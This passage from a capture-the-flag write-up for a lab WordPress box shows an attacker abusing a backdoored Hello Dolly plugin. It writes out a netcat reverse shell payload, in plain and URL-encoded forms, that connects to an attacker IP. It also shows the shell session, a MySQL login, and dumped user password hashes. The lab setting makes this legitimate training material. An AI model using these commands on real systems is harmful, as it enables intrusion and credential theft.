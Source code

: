 Unfortunately, we cannot call the `hello_dolly` function directly by visiting the `/wp-content/plugins/hello.php` endpoint. However, we can see this file included automatically in the dashboard, and the function is called, as evidenced by the lyrics displayed in the dashboard.

![Web 80 Wordpress Hellodolly](web_80_wordpress_hellodolly.webp){: width="1200" height="600"}

Knowing this, we can execute our reverse shell payload (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f`) by visiting:

```
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.11.72.22%20443%20%3E%2Ftmp%2Ff
```
{: .wrap }

![Web 80 Wordpress Shell](web_80_wordpress_shell.webp){: width="1200" height="600"}

This results in a shell as the `www-data` user in our listener.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.0.24] 59750
www-data@smol:/var/www/wordpress/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@smol:/var/www/wordpress/wp-admin$ export TERM=xterm
www-data@smol:/var/www/wordpress/wp-admin$ ^Z
zsh: suspended  nc -lvnp 443

[1]  - continued  nc -lvnp 443

www-data@smol:/var/www/wordpress/wp-admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as diego

Since we already have access to the database credentials from the configuration file, we can use them to enumerate the database and retrieve the hashes for the users.

```console
www-data@smol:/var/www/wordpress/wp-admin$ mysql -u wpuser -p'kb[REDACTED]%G' -D wordpress

mysql> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
+------------+------------------------------------+
6 rows in set (0.00 sec)
```
